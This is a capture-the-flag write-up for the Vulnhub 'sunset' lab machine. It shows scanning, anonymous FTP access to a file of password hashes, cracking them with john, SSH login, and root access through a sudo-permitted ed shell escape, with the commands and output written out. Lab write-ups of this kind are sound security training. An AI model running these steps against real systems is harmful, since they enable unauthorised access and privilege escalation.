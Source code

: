 ```yaml
---
title: "Vulnhub: sunset"
layout: archive
date:   2020-12-29
tags: Vulnhub
tags_label: true
---
```

This box is the first box in the sunset series. It is a very simple box, it only requires two steps to get root.

### Scanning:

Finding the machine on the network

```
Nmap scan report for 192.168.56.130
Host is up (0.00021s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

```

### More Scanning:

Getting more details

```
crazyeights@es-base:~$ nmap -A -p- 192.168.56.130
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-29 17:25 EST
Nmap scan report for 192.168.56.130
Host is up (0.00010s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     pyftpdlib 1.5.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root         1062 Jul 29  2019 backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.56.130:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
[SNIP]
```

### FTP:

Log in to ftp as Anonymous

```
crazyeights@es-base:~$ ftp 192.168.56.130
Connected to 192.168.56.130.
220 pyftpdlib 1.5.5 ready.
Name (192.168.56.130:crazyeights): anonymous
331 Username ok, send password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
Download the only file:
```
ftp> ls
200 Active data connection established.
125 Data connection already open. Transfer starting.
-rw-r--r--   1 root     root         1062 Jul 29  2019 backup
226 Transfer complete.
ftp> get backup
local: backup remote: backup
200 Active data connection established.
125 Data connection already open. Transfer starting.
226 Transfer complete.
1062 bytes received in 0.03 secs (39.7634 kB/s)
```
Check out the file backup we found:

```
crazyeights@es-base:~$ file backup
backup: ASCII text

crazyeights@es-base:~$ cat backup 
CREDENTIALS:                                                                                                                                                                                                       
office:$6$$9ZYTy.VI0M7cG9tVcPl.QZZi2XHOUZ9hLsiCr/avWTajSPHqws7.75I9ZjP4HwLN3Gvio5To4gjBdeDGzhq.X.                                                                                                                  
datacenter:$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/                                                                                                              
sky:$6$$Ny8IwgIPYq5pHGZqyIXmoVRRmWydH7u2JbaTo.H2kNG7hFtR.pZb94.HjeTK1MLyBxw8PUeyzJszcwfH0qepG0                                                                                                                     
sunset:$6$406THujdibTNu./R$NzquK0QRsbAUUSrHcpR2QrrlU3fA/SJo7sPDPbP3xcCR/lpbgMXS67Y27KtgLZAcJq9KZpEKEqBHFLzFSZ9bo/
space:$6$$4NccGQWPfiyfGKHgyhJBgiadOlP/FM4.Qwl1yIWP28ABx.YuOsiRaiKKU.4A1HKs9XLXtq8qFuC3W6SCE4Ltx/ 
```

The backup files appears to contain credentials of local users on the machine. We can use john to crack them.

**Use john to crack the credentials:**

The format of the hashes sha512crypt
```
crazyeights@es-base:~$ john --format=sha512crypt  sunset_hash 
Using default input encoding: UTF-8
Loaded 4 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
sky              (sky)
Warning: Only 39 candidates buffered for the current salt, minimum 64 needed for performance.
Warning: Only 56 candidates buffered for the current salt, minimum 64 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 47 candidates buffered for the current salt, minimum 64 needed for performance.
Warning: Only 49 candidates buffered for the current salt, minimum 64 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Proceeding with incremental:ASCII
cheer14          (sunset)
```

- The credentials sky:sky are not for anything.

- Trying the credentials sunset:cheer14 on ssh

```
crazyeights@es-base:~$ ssh sunset@192.168.56.130
```
**Getting user.txt:**

```
sunset@sunset:~$ ls
user.txt
sunset@sunset:~$ cat user.txt 
5b5b8e9b01ef27a1cc0a2d5fa87d7190
```

### Privilege Escalation:

Finding what the user can run with elevated privileges:

```
sunset@sunset:~$ sudo -l
Matching Defaults entries for sunset on sunset:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sunset may run the following commands on sunset:
    (root) NOPASSWD: /usr/bin/ed
```

Looking up ed:

```
NAME
       ed - line-oriented text editor
```

- Looking up ed on GTFObins

- It can be used to break out from restricted environments by spawning an interactive system shell.

```
ed
!/bin/sh
```

#### Getting root:
```
sunset@sunset:~$ sudo ed
!/bin/bash
root@sunset:/home/sunset# cd /root
```

##### Getting root flag:
```
root@sunset:~# ls
flag.txt  ftp  server.sh
root@sunset:~# cat flag.txt 
25d7ce0ee3cbf71efbac61f85d0c14fe
```

FIN.